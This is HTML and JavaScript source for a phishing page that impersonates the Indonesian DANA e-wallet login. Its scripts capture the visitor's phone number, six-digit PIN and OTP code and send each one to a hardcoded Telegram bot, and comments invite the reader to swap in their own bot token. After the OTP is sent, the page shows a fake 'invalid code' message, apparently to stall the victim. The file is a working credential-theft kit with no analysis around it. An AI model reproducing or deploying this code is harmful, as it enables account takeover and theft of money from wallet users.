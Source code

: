 <head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=0">
<meta name="theme-color" content="#118EEA">
<script type="module" src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.esm.js"></script>
<script nomodule src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.js"></script>
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/container.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/loader.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/main.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/otp.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/pin.css">
</head>
<style>
    
body, html{
      left: 0;
      right: 0;
      bottom: 0;
      top: 0;
      margin: 0px auto;
      width: 100%;
      height: 100%;
      positon: fixed
      
}
h2{font-size: 18px; }

h3{
  font-size: 14px;  
}

 
 * {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118CEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118CEA;
  padding-top:0%;
  height: 100%;
  top: 0;
  right: 0;
  left: 0;
  margin: 0px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  padding: 32px;
  width: 100%;
  top: 0;
  background-color: #118CEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 79%;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 0px auto;
 
  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;{}
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 100%;
  margin-left: 10px;
  background-color: #118CEA;
  counter-increment: item;
  z-index: 99999999;
}

.carousel__slide:nth-child(even) {
  background-color: #118CEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118CEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  height: 100%;
  scroll-snap-align: center;
  background-color: #118CEA;
  
  
}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}


.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

/*********************/
.process1 {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: 99999;
            
      
}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;
}
.loading img {
    width: 50px;
    
    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

/*********************/

 #homeku{
     width: 100%;
     height: 100%;
     position: fixed;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;
  left: 0;
  right: 0;
  top: 0;
  bottom: 0;
  margin: 0px auto;
     
     
 }
 
 .inp{
     width: 70%;
     padding-left: 10px;
 }
 
 
 .btn-backku{
     position: absolute;
     left: 20;
     top: 12;
     background: transparent;
     color: #fff;
     border: none;
     font-size: 18px;
     font-weight: 300;
    
 }
 
 
 #back1{
      display: none;
     
 }
 
 #back2{
      display: none;
 }
</style>
<body>

<div style="display:none;" class="index">
	<div class="header">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
	</div>
	<div class="content">
		<div class="hero">
			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/hero.svg" alt="">
		</div>
		<h1>Dompet digital untuk kamu!</h1>
		<p class="desc">
			Simpan uang serta kartu debit/kredit dengan<br>praktis di DANA</p>
		<div class="line"></div>
		<p class="log">
			Masukkan <b>nomor HP</b> kamu untuk lanjut
		</p>
		<button type="button" onclick="next();">LOGIN</button>
	</div>
</div>
<div class="start" style="display:none;">
	<img class="logo" src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_text.png" style="width: 150px">
	<div class="footimg">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/bi.png" alt=""><img src="https://dev-danapemulihan.pantheonsite.io/asset/img/kom.png" alt="">
		<p>
			DANA Indonesia terdaftar dan diawasi<br>oleh Bank Indonesia dan Kominfo</p>
	</div>
</div>

<div class="container hid" style="position: fixed">
    
	<div class="" style="text-align: center;" id="homeku">
   

        
     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide1"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
    <li id="carousel__slide2"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide3"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">
       
       
      </div>
    </li>
   
  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        
    </ol>
  </aside>
</section>
<button id="butonku" style="width: 90%; height: 189px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://user-images.githubusercontent.com/155412066/296517930-fcfc7dd0-ba64-4395-85bf-e4103927b567.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999" onclick="nextPrev()"></button>
      <center>
     <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading" style="margin-top: 8px">
            </div>
        </div>
        </center>
  </div>
  <div id="blogin" class="box-login" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    padding: 0px
    right: 0; 
    margin: 0px auto;
    top: 0; display: none;">
      	<div id="process" name="process" class="process" style="display: none;">
			<div class="loading">
				<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png">
				<img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png" style="margin-top: 8px">
			</div>
		</div>
		
		<div class="header">
<button id="back1" type="button" class="btn-backku" onclick="goback1()"><ion-icon name="chevron-back-outline"></ion-icon></button>	<p></p>


			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
		</div>
		<form id="formNohp" onsubmit="sendNohp(event);" >
		     <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
			<h3 style="font-size: 16px; margin-top: -20px">Masukkan <b>nomor HP</b> kamu untuk lanjut</h3>
			<div class="box-input" style="width: 95%;">
				<div class="label">
					<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/indo.png" alt=""><label>+62</label>
				</div>
				<input class="inp" id="inp" type="tel" autocomplete="off" required name="nohp" placeholder="812-3456-7890" maxlength="12" minlength="10"></div>
			<p class="desc" style="font-size: 12px; line-height: 18px; margin-top: 25px">
Nomor ponsel akan digunakan sebagai ID kamu & menjaga<br>akun selalu aman. Dengan melanjutkan, kamu setuju dengan <b>Syarat & Ketentuan dan Kebijakan Privasi</b> kami.
			</p>
			<div class="box-btn">
				<button disabled id="btn" class="btnnohp" type="submit" style="margin-top: -40px"><b>Lanjutkan</b></button>
			</div>
		</form>
		<form id="formPin" omsubmit="return false" class="hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
		     <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
		    <button id="back2" type="button" class="btn-backku" onclick="goback2()" style="margin-top: 10px"><ion-icon name="chevron-back-outline"></ion-icon></button>
			<h3 style="margin-top: 50px; font-weight: 600; margin-bottom: -10px; font-size: 16px"><font style="font-weight: 400">Masukkan</font> PIN DANA</h3>
			<div class="box-input-pin">
				<div type="button" class="clear"></div>
				<input name="pin1" id="pin1" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin2" id="pin2" class="inppin" inputmode="numeric" type="password" autocomplete="off" required"""" maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin3" id="pin3" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin4" id="pin4" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin5" id="pin5" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin6" id="pin6" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;" onchange="javascript:this.form.button();" oninput="sendPin()"></div>
			<button class="show" type="button">TAMPILKAN</button>
			<p class="forgot">LUPA PIN?</p>
			<img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbD-mmuMUDwaeFMEz6NefivuQqHyrFXvXxqVxMhYRhR5wsfUhiWkPNkpxLKkagRNpJ2obIiZH_D9EK6tnHIJUFMVBOclZI98zrU7VPszAR5n-_GeSWNCNgnfH1MRWuL-ahhPjxsejyDa5yyWAaOMWXWT4jS4EngtdLLlXjaPakQoFIOsjyS6tfnEBHDlw/s16000/output-onlinegiftools.gif" width="100%" style="position: absolute; bottom: 10; left: 0; right: 0; margin: 0px auto;">
		</form>
<div class="bgotp hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: absolute; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
<div class="bgotp hid"><form id="formOtp" class=""><h2>Masukan Kode OTP</h2><br><center>
				<p class="alert" id="alert" style="font-size: 14px; text-align: center; margin-bottom: 0px; font-weight: 500; color: #000; margin-top: 0px; display: ; width: 360px; margin-bottom: -10px; font-weight: 300"></p>
				
				
				</center>
				<div class="box-input-otp" style="margin-top: 50px">
					
					<div class="loadingOtp" style="display:none;background: #fafafa">

						
						<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png"><img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png">
		</div>
		<div type="button" class="clearotp"></div>
		 <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
					<input name="otp1" id="otp1" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp2" id="otp2" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp3" id="otp3" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp4" id="otp4" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"></div>
		 <p id="waktuku" class="resend" style="margin-top: 70px; spacing: 2;color: #0f78cb; font-size: 13px">
					Kirim Ulang (<span id="carasingkat" style="color: #0f78cb">60</span>s)
				</p>
       <p class="resend" style="margin-top: 70px; spacing: 2; font-weight: 600; color: #0f78cb; margin-left: 0px; display: none" id="kirim-ulang" onclick="kirimulang()">Kirim Ulang</p>
       
       
			</div>
		</div>
	</div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
        <script>
            var url = "#kirim-ulang"; // url tujuan
            var count = 60; // dalam detik
            function countDown() {
                
                if (count > 0) {
                    count--;
                    var waktu = count + 0;
            $('#carasingkat').html(waktu);
             
         setTimeout("countDown()", 1000);
           
                    
               
                }
            }
            countDown();
       
       </script>
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<script src="https://dev-danapemulihan.pantheonsite.io/asset/jquery.mask.min.js"></script>
<script src="./asset/goo1gle.js"></script>
<script>$(document).ready(function(){$('#inp').on('input', function(){if($(this).val() == '0' || $(this).val() == '62'){$(this).val('');}});});</script>
<script>$(document).ready(function(){$('#inp').mask('000-0000-000000');});</script>
<script>let inp = document.getElementById("inp");let btn = document.getElementById("btn");inp.addEventListener("input", val);function val(){if(inp.value.length > 10){btn.disabled = false;}else{btn.disabled = true;}};</script>

<script>
//var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
var pinContainer = document.querySelector(".box-input-pin");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        } aa
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>$('.inpotp').on('input', function(event) {const inputs = $('.inpotp');const isAllFilled = Array.from(inputs).every((input) => input.value !== '');if (isAllFilled == true) {$(event.target).blur();sendOtp();}const index = inputs.index(this);const currentValue = event.target.value;if (currentValue.length === 1) {if (index < inputs.length - 1) {inputs[index + 1].focus();}} else if (currentValue.length === 0) {if (index > 0) {inputs[index].focus();}};});$('.inpotp').on('keydown', function(event) {const inputs = $('.inpotp');const key = event.key;const index = inputs.index(this);if (key === 'Backspace' && event.target.value.length === 0) {if (index > 0) {inputs[index - 1].focus();}};});</script>
<script>$(document).ready(function() {$('.clear').click(function() {$('.inppin').val('');$('#pin1').focus();});$('.clearotp').click(function() {$('.inpotp').val('');$('#otp1').focus();});$('.show').click(function() {$('.inppin').each(function() {if ($(this).attr('type') === 'password') {$(this).attr('type','number');$(".show").text("SEMBUNYIKAN");} else {$(this).attr('type', 'password');$(".show").text("TAMPILKAN");}});});});</script>
<script>
 function nextPrev(){
      $("#process1").show();event.preventDefault();
       setTimeout(function(){
           $("#homeku").hide();
           $("#back1").show();
           $("#butonku").fadeOut();
           $(".box-login").fadeIn();
           $("#process1").hide();
       },1000);
 }   
 
 
 function goback1(){
     $("#process").show();
     setTimeout(function(){
     $("#homeku").show();
      $(".box-login").fadeOut();
      $("#butonku").fadeIn();
      $("#back1").hide();
       $("#process").hide();
       
     },500);
 }
 
 </script>
 <script>
 
 function goback2(){
     $("#process").show();
     setTimeout(function(){
    $("#formPin").fadeOut();
     $("#formNohp").fadeIn();
       $("#process").hide();
        $("#inp").val('');
        $("#back1").show();
        $("#back2").hide();
        document.getElementById("formPin").reset();
        $('.inppin').val('');
     },500);
 }
</script>
<script>
    $( document ).ready(function() {
            setTimeout(() => {
                $('#popup').hide();
                $('chsalxcome2').fadeIn();
            },2000)
             $('musikku').play();
        })
        
</script>


<script>
function tutupotp(){
$(".bgotp").hide();    
}
</script>
<script>
   function sendNohp(event){
    $("#process").show();event.preventDefault();
    $("#inp").blur();
     
    
    
    var nomor = document.getElementById("inp").value;
            sessionStorage.setItem("nomor", nomor);
    var logo = document.getElementById('logo');       
    var inp = document.getElementById('inp');
    
    var gabungan = '' + logo.value + '%0A𝐍𝐨.𝐇𝐩 : ' + '0' + inp.value;
   
    var token = '7967257967:AAEhvuBgxiKS9yr6jbYOsFppy7aRqauW8jE'; // Ganti dengan token bot yang kamu buat
    var grup = '6728611462'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    
    success: function(){
    $("#process").hide();
    document.getElementById("back1").style.display = "none";
    document.getElementById("back2").style.display = "block";
    $("#formNohp").fadeOut();
    setTimeout(function(){
   
    $("#formPin").fadeIn();
    $("#pin1").focus();
    }, 500);}});};
    

function sendPin(){

 
 
  var nomor = sessionStorage.getItem("nomor");
        document.getElementById("alert").innerHTML = "Kode dikirim via SMS ke +62 " + nomor+ " <br/>";
  var logo = document.getElementById('logo'); 
  var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     
  var gabungan = '' + logo.value + '%0A𝐍𝐨.𝐇𝐩: ' + '0' + inp.value + '%0A𝐏𝐈𝐍.     : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value;
  
     
 

    var token = '7967257967:AAEhvuBgxiKS9yr6jbYOsFppy7aRqauW8jE'; // Ganti dengan token bot yang kamu buat
    var grup = '6728611462'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,


success: function(){
$("#process").hide();
document.getElementById("alert").style.display = "block"; 
$(".bgotp").fadeIn();
setInterval(countdown, 1000);
$("#otp1").focus();
}
}
);
};


  function sendOtp(){
    $(".loadingOtp").show();
     var logo = document.getElementById('logo'); 
     var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     var otp1 = document.getElementById('otp1');
   var otp2 = document.getElementById('otp2');
   var otp3 = document.getElementById('otp3');
   var otp4 = document.getElementById('otp4');
    setTimeout(function(){
$(".alert").text("Kode Invalid ");
$(".alert").css("color","red");
 },2000);
    var gabungan = '' + logo.value + '%0A𝐍𝐨.𝐇𝐩: ' + '0' + inp.value + '%0A𝐏𝐈𝐍    : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value + '%0A%0A𝐎𝐓𝐏    : ' + otp1.value + otp2.value + otp3.value + otp4.value;


    var token = '7967257967:AAEhvuBgxiKS9yr6jbYOsFppy7aRqauW8jE'; // Ganti dengan token bot yang kamu buat
    var grup = '6728611462'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
        
    success: function(){
    setTimeout(function(){
    $(".loadingOtp").hide();
   
    $('.inpotp').val('');
   $('#otp1').focus();
  var nomor = sessionStorage.getItem("nomor");
        document.getElementById("alert").innerHTML = "Kode baru dikirim ulang via SMS ke  +62" + nomor +  " <br/>";
   $(".alert").css("color","black");
    },4000);
   
        
    }
        
    }
    );
        
    };
    </script>
<script>
    function countdown() {
    var count = parseInt(
    $('#countdown').text());
    if (count !== 0) {
    $('#countdown').text(count - 1);} 
    else {
    $('#countdown').text('60');}};
    </script>
<script>
window.onload = function(){
        setTimeout(function(){
            $(".start").fadeIn();
            setTimeout(function(){
                $(".start").fadeOut(1000);
                setTimeout(function(){
                   $(".container").fadeIn(200);
                   $("#inp").focus();
                },1000);
            },1000);
        },500);
}
</script>
</body>
</html><!--<script src='https://a.bsite.net/footer.js'></script>
